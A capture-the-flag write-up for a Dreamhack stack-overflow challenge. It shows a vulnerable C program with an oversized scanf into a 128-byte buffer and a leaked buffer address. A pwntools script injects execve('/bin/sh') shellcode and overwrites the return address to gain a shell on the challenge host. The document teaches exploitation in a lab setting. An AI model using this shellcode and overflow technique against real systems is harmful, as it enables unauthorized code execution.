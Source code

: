 ```yaml
---
title : "(pwnable) bof + shellcode"
---
```


# Problem code
A stack overflow is a major security issue. How can we exploit this vulernability?

```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <signal.h>
  4 #include <unistd.h>
  5
  6
  7 void alarm_handler() {
  8     puts("TIME OUT");
  9     exit(-1);
 10 }
 11
 12
 13 void initialize() {
 14     setvbuf(stdin, NULL, _IONBF, 0);
 15     setvbuf(stdout, NULL, _IONBF, 0);
 16
 17     signal(SIGALRM, alarm_handler);
 18     alarm(30);
 19 }
 20
 21
 22 int main(int argc, char *argv[]) {
 23
 24     char buf[0x80];
 25
 26     initialize();
 27
 28     printf("buf = (%p)\n", buf);
 29     scanf("%141s", buf);
 30
 31     return 0;
 32 }
```

# Vulnerability
`scanf(%141s)` reads **141 Bytes**, but `buf` has a size of only 0x80(**128 Bytes**). This results in a 13-Byte overflow. And the `printf()` function prints the address of `buf`, allowing us to know the exact address of `buf`. 
Since `buf` is local variable in the `main` function, it is stored on the **program stack.**
Then we can use this overflow to inject a shellcode such as `execve("/bin/sh", 0, 0)`, and overwrite the return address with `&buf`. When the function returns `return 0`, it will jump to our shellcode, giving us a shell. 
![](https://i.imgur.com/Uhcs5l8.png)
# Solution

```python
  1 from pwn import *
  2
  3 context.log_level = 'debug'
  4 context.arch = 'i386'
  5 # p = process('./basic_exploitation_000')
  6 p = remote("host3.dreamhack.games", 19690)
  7 sh = asm(shellcraft.execve("/bin/sh", 0, 0)) # shellcode of execve
  8 p.recvuntil(b"buf = (")
  9 addr = p.recvuntil(b")", drop = True)
 10 addr = addr.decode()
 11 # shellcode of execve, scanf detour version
 12 sh = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
 13 payload = sh + b'A' * (0x84 - len(sh)) + p32(int(addr,16))
 14 p.sendline(payload)
 15
 16 p.interactive()
 17                       
```

An error will occur if we use `sh = asm(shellcraft.execve("/bin/sh", 0, 0))`. Because `scanf()` stops reading when it encounters whitespace characters such as `" ", "\t", "\n"` in the input stream. Therefore we must use a shellcode that does not contain any of these bytes. [Here is an example.](https://gist.github.com/Zhang1933/0d1c7b69af48483832eb2d6b22de287e)


